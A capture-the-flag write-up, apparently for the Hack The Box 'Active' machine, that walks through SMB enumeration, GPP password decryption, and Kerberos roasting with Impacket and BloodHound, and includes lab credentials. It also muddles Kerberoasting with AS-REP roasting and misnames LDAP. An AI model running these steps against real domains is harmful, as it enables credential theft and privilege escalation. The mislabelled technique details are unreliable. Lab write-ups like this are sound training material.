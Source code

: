 Name & IP Address of Machine:
> ACTIVE: `10.10.10.100`
<!-- TOC -->

- [Synopsis](#synopsis)
- [Enumeration](#enumeration)
- [FootHold](#foothold)
- [Enumeration](#enumeration-1)
- [Privilege Escalation](#privilege-escalation)

<!-- /TOC -->

**Hashes found**

`svc_tgs:GPPstillStandingStrong2k18`
`Administrator:Ticketmaster1968`

## Synopsis
```cmd.exe
runas /netonly /user:active.htb\svc_tgs cmd
```
To open a terminal as svc_tgs


## Enumeration
Scanning for open ports using nmap :
Important ports were: 
- [ ] 88 (KERBOROS)
- [ ] 135, 49152-58 (RPC-CLIENT)
- [ ] 445 (SMB-SERVER)
- [ ] 389 (LDAP) Lightweight Active Directory Protocol

## FootHold
- Login to samba server on port 445 via smbmap an find if you have read permission on any share.
- You do have read permission on Replication server.

## Enumeration
- Use smbmap to download a group.xml file which has credentials in it.
- Use gpp-decrypt to decrypt the hash and get user `svc_tgs`
- Now you have credentials, you can enumerate rpcclient to get `user.txt`. 
## Privilege Escalation
- You can try Impacket GetADUsers.py to enumerate other users or do it with `rpcclient`. 

    **Using GetADUsers.py**:
    ```bash
    GetADUsers.py -all active.htb/svc_tgs:GPPstillStandingStrong2k18
    ```
    **OR** using rpcclient:
    ```bash
    rpcclient $> enumdomusers
    ```
- Now find out which users don't require preauthencation so that you can grab his tgt or ticket. 
    ```bash
    GetNPUsers.py -usersfile user.txt active.htb/svc_tgs:GPPstillStandingStrong2k18
    ```
- Extract the hash of administrator which don't require pre-auth in kerboros.
    ```bash
    GetUserSPNs.py -u user.txt -dc-ip 10.10.10.100 active.htb/svc_tgs
    ```

**Alternatively With BloodHound**

- Bloodhound to extract information from the ldap and output in the zip format
    ```bash
    bloodhound-python -c all -u svc_tgs -d active.htb -ns 10.10.10.100 --zip
    ```
- Run bloodhound on your parrot machine and load zip file and 
    ```bash
    Run query`: `Shortest path from kerberoastable Users
    ```




<!-- ## Thank You 
🕉️  -->


<!-- ## Tools Used.
- [ ] . -->
